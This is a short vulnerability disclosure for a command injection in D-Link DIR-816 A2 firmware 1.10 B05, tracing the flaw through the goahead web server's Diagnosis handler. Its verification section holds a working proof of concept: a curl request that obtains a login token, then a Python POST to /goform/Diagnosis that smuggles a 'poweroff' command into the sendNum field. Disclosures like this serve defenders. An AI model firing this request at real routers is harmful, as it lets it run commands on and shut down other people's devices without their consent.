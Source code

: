# D-Link DIR-816 A2 1.10 B05 command injection

## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816
![image-1](./img/1.jpg)

## Vulnerability
Vulnerability is in ./bin/goahead. The function corresponding to Diagnosis can be found in the formDefineManagement function: 
![image-1](./img/2.jpg)

In the sub_45AC4C function  

![image-1](./img/3.jpg)

After concatenating the strings, the system command is executed.

but in the main function, Accessing the /goform route requires verification by the websFormHandler function
![image-1](./img/4.jpg)

In the websFormHandler function
![image-1](./img/5.jpg)

Accessing the /goform route need a tokenid, and access this route can get a tokenid
![image-1](./img/6.jpg)

## Verify
First, get a tokenid
```
curl http://127.0.0.1/dir_login.asp
```
And then excuting a command
```
import requests

url = "http://127.0.0.1/goform/Diagnosis"

data = {
    "tokenid": "xxx",
    "pingAddr": "127.0.0.1",
    "sendNum": "poweroff"
}

requests.post(url=url, data=data)
```
